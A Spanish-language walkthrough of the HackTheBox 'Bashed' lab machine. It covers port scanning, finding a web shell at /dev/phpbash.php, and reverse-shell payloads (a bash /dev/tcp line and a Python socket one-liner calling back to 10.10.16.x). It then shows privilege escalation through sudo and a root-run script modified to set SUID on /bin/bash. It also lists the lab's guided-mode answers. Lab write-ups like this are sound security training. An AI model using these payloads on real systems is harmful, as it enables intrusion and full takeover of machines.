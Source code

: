 #easy #linux #nmap #ping #revershell #tratamientotty #gobuster #sudo-l

-------
# Guided Mode

1)¿Cuántos puertos TCP abiertos están a la escucha en Bashed?
	1

2)¿Cuál es la ruta relativa en el servidor web a una carpeta que contiene phpbash.php?
	/dev

3)¿Con qué usuario se ejecuta el servidor web en Bashed?
	www-data

*La pregunta anterior era la flag de user.txt*
5)www-data puede ejecutar cualquier comando como usuario sin contraseña. ¿Cuál es el nombre de usuario de ese usuario?
	scriptmanager

6)¿A qué carpeta de la raíz del sistema puede acceder scriptmanager que www-data no puede?
	/scripts

7)¿Cuál es el nombre del archivo que se ejecuta cada dos minutos por root?
	test.py

------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.68
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.68 -oG allPorts
nmap -sCV -p80 10.10.10.68 -oN target
```

![[Bashed1.png]]

![[Bashed2.png]]
*TLL:* Maquina Linux
*Puertos:*
	`80` HTTP

-------
# [[Whatweb-wappalyzer]]

```shell
whatweb http:10.10.10.68
```

![[Bashed3.png]]
No nos da ninguna informacion relevante

------

# [[Gobuster]]

![[Bashed4.png]]
*Informacion Relevante:*
	Directorio */dev*

Busque con [[Gobuster]] por archivos php,txt y back. Pero la verdad no encontre nada

---------
# [[Reverse shell]] con python

El directorio que nos llama la atencion es http://10.10.10.68/dev. Entramos y vemos el archivo phpbash.php, ingresamos

![[Bashed7.png]]
Y es uan consola interactiva, como podemos ver estamos conectados con la maquina, asi que ahora vamos a mandar una [[Reverse shell]]

![[Bashed6.png]]
Ahora nos ponemos en escucha con [[nc -nlvp 443]]
Intentamos cargar el payload de ``bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'``  en esta consola interactiva que encontramos, pero no nos da conexion
Asi que vamos a probar hacer la [[Reverse shell]] con el payload de python
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.16.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
```

![[Bashed8.png]]
Ya estamos dentro de la maquina

--------
# [[Tratamiento de la TTY]]

-----
# Escalada de privilegios a usuario scriptmanager con [[Abuso de Sudo]]

Con [[sudo]] usamos el comando `sudo -l`
```shell
sudo -l
```

Vemos que podemos correr el binario de scriptmanager sin usar contraseña
![[Bashed9.png]]

Ahora vamos a usar con [[sudo]] el comando ``sudo -u scriptmanager /bin/bash`` para ejecutar la bash como el usuario scriptmanager

![[Bashed10.png]]
Ahora estamos como scriptmanger

------
# Escalada de privilegios al usuario root

Con [[ls]] usamos el comando `ls -l` y vemos que como scriptmanager tenemos acceso a la carpeta scripts que esta en la raiz del sistema

![[Bashed11.png]]

Vemos que en esta carpeta hay un archivo *test.py* que abre el archivo test.txt, luego lo escribe y lo cierra, pero vemos despues que ejecutando [[ls]] con el comando `ls -l` que lo esta haciendo como root

![[Bashed12.png]]

Con [[nano]] vamos a abrir el *test.py* usando el comando `nano test.py` le vamos a poner el siguiente oneliner para hacer la bash [[SUID]]
```
import os; os.chmod("/bin/bash", 0o4755)
```

![[Bashed14.png]]
Despues vamos a ejecutar una [[bash]] con privilegios usando el comando `bash -p` y como es *SUID* ahora pasamos a ser el usuario *root*. Para posteriormente catear las flags
![[Bashed13.png]]